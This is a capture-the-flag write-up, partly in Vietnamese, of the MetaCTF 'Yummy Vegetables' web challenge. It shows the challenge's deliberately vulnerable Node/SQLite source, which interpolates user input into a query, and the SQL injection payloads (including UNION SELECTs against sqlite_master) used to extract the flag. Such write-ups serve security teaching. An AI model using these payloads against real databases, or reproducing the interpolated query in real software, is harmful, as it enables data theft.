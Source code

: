 ### Yummy Vegetables - web challenge - 300

Challenge description

```
I love me my vegetables, but I can never remember what color they are! I know lots of people have this problem, so I made a site to help.

Here's some sauce to go with the vegetables: index.js
```

http://host.cg21.metaproblems.com:4010/

**Overview** 
```javascript
const express = require('express');
const Ajv = require('ajv');
const sqlite = require('better-sqlite3');

const sleep = (ms) => new Promise((res) => { setTimeout(res, ms) })

// set up express
const app = express();
app.use(express.json());
app.use(express.static('public'));

// ajv request validator
const ajv = new Ajv();
const schema = {
  type: 'object',
  properties: {
    query: { type: 'string' },
  },
  required: ['query'],
  additionalProperties: false
};
const validate = ajv.compile(schema);

// database
const db = sqlite('db.sqlite3');

// search route
app.search('/search', async (req, res) => {
  if (!validate(req.body)) {
    return res.json({
      success: false,
      msg: 'Invalid search query',
      results: [],
    });
  }

  await sleep(5000); // the database is slow :p

  const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;
  let results;
  try {
    results = db.prepare(query).all();
  } catch {
    return res.json({
      success: false,
      msg: 'Something went wrong :(',
      results: [],
    })
  }

  return res.json({
    success: true,
    msg: `${results.length} result(s)`,
    results,
  });
});

// start server
app.listen(3000, () => {
  console.log('Server started');
});
```

Sau click vào liên kết sẽ đưa chúng ta đến với một box tìm kiếm `Search for Vegetables`.  Trong file `index.js` dòng dễ bị tấn công sử dụng mã sau `const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;` 
Sử dụng `' or 1=1--`  mình thấy có list 2 cột hiện ra là `Vegetable Name` và  `Color`. 

Từ mã nguồn thấy rằng cơ sở dữ liệu trong thử thách dùng sqlite, để truy xuất tên table mình dùng`'  union SELECT null,null,tbl_name FROM sqlite_master --` 

```
Color

sqlite_sequence
the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5
veggies
```

Bảng `the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5` có thể chứa flag. Tiến hành truy xuất dữ liệu trong bảng xem kết quả có khả quan không

```
{"query":"' union select null,null,flag from the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5--"}
```

Từ đó mình nhận được flag

```
{
"id":null,
"name":null,
"color":"MetaCTF{sql1t3_m4st3r_0r_just_gu3ss_g0d??}"
},
```

